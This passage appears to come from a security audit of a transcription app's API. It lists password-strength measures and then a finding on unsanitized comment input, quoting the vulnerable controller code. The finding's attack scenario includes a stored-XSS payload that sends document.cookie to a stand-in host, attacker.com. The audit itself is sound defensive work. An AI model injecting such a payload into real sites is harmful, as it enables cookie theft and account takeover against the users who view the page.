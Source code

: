 **Additional Measures:**
1. **Password Strength Indicator:** Show password strength in UI
2. **Minimum Entropy:** Require minimum entropy score (e.g., zxcvbn library)
3. **Common Password Blacklist:** Reject passwords from common breach databases
4. **Link Expiry Enforcement:** Default to 7-day expiry, warn on longer
5. **View Limits:** Encourage users to set `maxViews` limit

---

### 🟠 HIGH-003: Missing Input Sanitization in Comment Content
**OWASP:** A03:2021 – Injection
**CWE:** CWE-79 (Cross-Site Scripting), CWE-89 (SQL Injection - NoSQL variant)
**CVSS Score:** 7.1 (High)

**Location:** [apps/api/src/transcription/transcription.controller.ts:346-365](apps/api/src/transcription/transcription.controller.ts#L346-L365)

**Description:**
Comment content is stored without sanitization:

```typescript
@Post(':id/comments')
@UseGuards(FirebaseAuthGuard)
async addComment(
  @Param('id') transcriptionId: string,
  @Body() commentData: { position: any; content: string },  // No validation!
  @Req() req: Request & { user: any },
) {
  const comment = await this.transcriptionService.addSummaryComment(
    transcriptionId,
    req.user.uid,
    commentData.position,
    commentData.content,  // Unsanitized content stored
  );
}
```

**Vulnerabilities:**
1. **Stored XSS:** If content rendered in frontend without sanitization
2. **NoSQL Injection:** Special characters in content could affect queries
3. **No Length Limits:** Unlimited comment length (DoS vector)
4. **Position Validation:** `position: any` accepts any type

**Attack Scenario:**
```javascript
// XSS payload in comment
fetch('https://api.neuralsummary.com/transcriptions/123/comments', {
  method: 'POST',
  headers: { 'Authorization': 'Bearer TOKEN' },
  body: JSON.stringify({
    position: { start: 0, end: 10 },
    content: '<script>fetch("https://attacker.com/steal?cookie="+document.cookie)</script>'
  })
});

// When other user views comments, XSS executes
```
